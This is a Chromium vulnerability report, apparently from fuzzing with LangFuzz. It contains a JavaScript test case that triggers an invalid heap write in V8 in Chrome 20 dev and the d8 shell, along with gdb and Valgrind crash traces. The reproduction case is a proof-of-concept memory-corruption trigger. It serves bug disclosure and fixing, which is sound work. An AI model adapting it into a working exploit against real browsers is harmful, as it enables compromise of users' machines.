 <b>VULNERABILITY DETAILS</b>
The JavaScript code below crashes Chromium 20.0.1115.1 dev and d8 shell (trunk rev 11428) on the heap with an invalid write to a random/weird address (see traces below for address information).


<b>VERSION</b>
Chrome Version: 20.0.1115.1 dev
Operating System: Ubuntu 11.10 64 bit


<b>REPRODUCTION CASE</b>
(function () {
  function PrettyPrint(value) {
     var string = Object.prototype.toString.call(value);
     return "(" + PrettyPrint(value.valueOf()) + ")";
  }
  function deepEquals(a, b) {
      return (1 / a) === (1 / b);
  };
  assertEquals = function assertEquals(expected, found, name_opt) {
    if (!deepEquals(found, expected)) {
      fail(PrettyPrint(expected), found, name_opt);
    }
  };
})();
try {
function Hash() {}
Hash.prototype.m = function() {};
var h = new Hash();
  assertEquals(i < 50 || i >= 70 ? 1 : 2, h.m());
} catch(exc1) {}
function test(a) {
  a[0] = (1.5);
  assertEquals(0, a.length = 0);
}
var a = new Array();
var n = 100000000;
var result = 0;
for (var i = 0; i < n; ++i) {
  result += test(a);
}


<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
Type of crash: tab
Crash State:

Program received signal SIGSEGV, Segmentation fault.
0x00002a96d1438218 in ?? ()
(gdb) bt 4
#0  0x00002a96d1438218 in ?? ()
#1  0x00002a96d1438ecd in ?? ()
#2  0x0000085bdd96c1f9 in ?? ()
#3  0x00001ef623406c11 in ?? ()
(More stack frames follow...)
(gdb) x /i $pc
=> 0x2a96d1438218:      movsd  %xmm0,0xf(%rdi,%rcx,8)
(gdb) info reg xmm0 rdi rcx
xmm0           {v4_float = {0x0, 0x1, 0x0, 0x0}, v2_double = {0x1, 0x0}, 
  v16_int8 = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0xf8, 0x3f, 0x0, 0x0, 0x0, 0x0, 
    0x0, 0x0, 0x0, 0x0}, v8_int16 = {0x0, 0x0, 0x0, 0x3ff8, 0x0, 0x0, 0x0, 
    0x0}, v4_int32 = {0x0, 0x3ff80000, 0x0, 0x0}, v2_int64 = {
    0x3ff8000000000000, 0x0}, uint128 = 0x00000000000000003ff8000000000000}
rdi            0x39634615fff0   63098540392432
rcx            0x0      0


Trace from D8 with Valgrind:

==31504== Invalid write of size 8
==31504==    at 0x178C1F040D18: ???
==31504==    by 0x178C1F03D6C5: ???
==31504==    by 0x178C1F00C8A6: ???
==31504==    by 0x178C1F006115: ???
==31504==    by 0x469EBF: v8::internal::Invoke(bool, v8::internal::Handle<v8::internal::JSFunction>, v8::internal::Handle<v8::internal::Object>, int, v8::internal::Handle<v8::internal::Object>*, bool*) (in /scratch/holler/LangFuzz/v8-trunk/d8)
==31504==    by 0x46B71D: v8::internal::Execution::Call(v8::internal::Handle<v8::internal::Object>, v8::internal::Handle<v8::internal::Object>, int, v8::internal::Handle<v8::internal::Object>*, bool*, bool) (in /scratch/holler/LangFuzz/v8-trunk/d8)
==31504==    by 0x40DE08: v8::Script::Run() (in /scratch/holler/LangFuzz/v8-trunk/d8)
==31504==    by 0x6A82B1: v8::Shell::ExecuteString(v8::Handle<v8::String>, v8::Handle<v8::Value>, bool, bool) (in /scratch/holler/LangFuzz/v8-trunk/d8)
==31504==    by 0x6A9C84: v8::SourceGroup::Execute() (in /scratch/holler/LangFuzz/v8-trunk/d8)
==31504==    by 0x6AA6BF: v8::Shell::RunMain(int, char**) (in /scratch/holler/LangFuzz/v8-trunk/d8)
==31504==    by 0x6AAA6C: v8::Shell::Main(int, char**) (in /scratch/holler/LangFuzz/v8-trunk/d8)
==31504==    by 0x580BEEC: (below main) (in /lib64/libc-2.12.2.so)
==31504==  Address 0x1101aa19ffff is not stack'd, malloc'd or (recently) free'd

